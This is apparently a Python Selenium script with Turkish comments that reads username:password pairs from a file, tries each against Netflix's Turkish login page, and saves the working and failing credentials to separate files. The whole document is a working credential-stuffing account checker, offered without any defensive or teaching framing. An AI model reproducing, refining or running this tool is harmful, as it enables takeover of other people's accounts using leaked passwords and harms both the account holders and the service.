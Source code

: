 [CODE=python]import os

from selenium import webdriver

from selenium.webdriver.common.by import By

from selenium.webdriver.support.ui import WebDriverWait

from selenium.webdriver.support import expected_conditions as EC

from colorama import Fore, Style







# Dosya varlığını kontrol et ve varsa kullanıcı adı ve şifreyi oku

with open('hesaplar.txt', 'r') as file:

    for line in file:

        username, password = line.strip().split(':')

        print(f"Kullanıcı adı: {username}")



        # Webdriver'ı başlat ve giriş sayfasına git

        browser = webdriver.Chrome()

        browser.get("https://www.netflix.com/tr/login")



        # Bekleyiciyi ayarla

        wait = WebDriverWait(browser, 10)



        # Kullanıcı adı ve şifrenizi girin ve giriş yapın

        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'input[name="userLoginId"]'))).send_keys(username)

        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'input[name="password"]'))).send_keys(password)

        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'button[type="submit"]'))).click()



        try:

            # Profil seçme sayfasının yüklenmesini bekle

            wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, '.profile-icon')))

            print(Fore.GREEN + f"Giriş başarılı: {username}" + Style.RESET_ALL)

            # Başarılı hesapları ayrı bir dosyaya kaydet

            with open('basarili_hesaplar.txt', 'a') as f:

                f.write(f"{username}:{password}\n")

        except:

            # Başarısız hesapları ayrı bir dosyaya kaydet

            print(Fore.RED + f"Giriş başarısız: {username}" + Style.RESET_ALL)

            with open('basarisiz_hesaplar.txt', 'a') as f:

                f.write(f"{username}:{password}\n")

        finally:

            # Tarayıcıyı kapat

            browser.quit()

[/CODE]

